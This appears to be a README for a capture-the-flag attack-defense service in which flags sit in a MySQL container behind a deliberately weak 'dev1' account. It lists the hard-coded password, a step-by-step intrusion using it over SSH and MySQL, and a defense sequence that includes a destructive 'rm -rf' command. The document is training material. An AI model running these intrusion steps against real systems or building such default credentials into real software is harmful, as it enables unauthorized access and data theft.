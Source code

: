 # Service definition:
- We have two dockers: 
1. A Mysql Database one which contains the flags. 
2. The php one who has install all the services. 
The attacker has access to a web page (web_docker) that has different options to access the information and also the option to create users.
The flags are stored in db docker database and attacker has to go in with the options provided. 

# Service implementation:
web docker is configured to take a copy index.html file from the host machine, letting it in '/var/www/html/index.html'. 
db docker is configured attending to the following tips:
  - It has openssh-server installed and started. 
  - It has a user called 'dev1' whose password is 'dev1_password'. 

 'dev1' user will never be changed, but password can be changed. Moreover, it has also the same user and password for the database. 
 
-Flags: 
    Flags will be stored in 'webdatubasea_db_1' docker's flags in faulty_db database and flags table. 

# About exploting:
- The attacker can use the web to find the flag in the table or create a new db user and get the flag from terminal.
- The defender should change 'dev1' user's password. It has to change dev1 db user password and remove all the users created. It cas to remove or restrict access to create_user.php and show_info.php.
  
  Attack performed by Team1 against Team 2. 
    Inspect web page in 10.0.1.101
        We can create user.
        We can check flags.
    ssh -p 2222 dev1@10.0.1.101
          Enter 'dev1_password' as password
    mysql -h 10.0.1.101 -P 3306 -u dev1 -p
    USE faulty_db;
    SELECT * FROM flags;
      Copy last flags
      Exit

    
    'ssh -i /home/isard/Documents/keyak/team2-sshkey root@10.0.1.1'
    nano /root/xxx.flag
    Paste copied flags. 


  Defense performed by Team2
     'ssh root@10.0.0.102'
     docker exec -it webdatubasea_web_1 /bin/bash
     passwd dev1
     rm -rf /var/www/html/src/*

     mysql -h 10.0.1.101 -P 3306 -u dev1 -p
     SET PASSWORD FOR 'dev1'@'%' = PASSWORD('new_password');
     SELECT User, Host FROM mysql.user;
     DROP USER 'username'@'host';

     

# Checker checks:
- Ports to reach dockers are open (WEB:80)
- User 'dev1' exists in webdatubasea_web docker. 
- User 'dev1' exists in webdatubasea_db docker. 
- User 'root' exists in webdatubasea_db docker.
- /var/www/html/index.html file's content from webdatubasea_web docker has not been changed. 


# License notes


